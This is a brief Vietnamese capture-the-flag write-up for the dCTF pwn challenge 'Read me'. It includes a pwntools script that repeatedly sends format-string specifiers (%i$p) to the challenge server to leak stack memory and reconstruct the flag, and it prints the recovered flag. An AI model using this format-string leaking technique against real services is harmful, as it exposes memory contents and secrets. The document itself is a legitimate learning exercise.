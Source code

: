 ![readme](C:\Users\vietd\OneDrive - actvn.edu.vn\MyWriteUp\VietAT16-Task_KCSC\dCTF\pwn\Read me\imgs\readme.png)

Đây là 1 bài format string

![printaddr](C:\Users\vietd\OneDrive - actvn.edu.vn\MyWriteUp\VietAT16-Task_KCSC\dCTF\pwn\Read me\imgs\printaddr.png)

```python
# xpl.py
from pwn import *

data_lst = []
for i in range(1, 15):
	r = remote('dctf-chall-readme.westeurope.azurecontainer.io', 7481)
	r.sendline(f'%{i}$p')
	r.recvuntil("hello ")
	data_leak = r.recvline()[:-1]
	if(data_leak != b'(nil)'):
		data_lst.append(data_leak.decode())
for hexchar in data_lst:
	print(p64(int(hexchar, 16)))
```

Mình sẽ chạy nhiểu lần để leak dần từ stack. Cách này hiêu quả vs những bài giới hạn kí tự nhập vào. Ở đây mình chạy 14 lần là đc flag r![flag](C:\Users\vietd\OneDrive - actvn.edu.vn\MyWriteUp\VietAT16-Task_KCSC\dCTF\pwn\Read me\imgs\flag.png)

flag: `dctf{now_g0_r3ad_s0me_b00k5}`

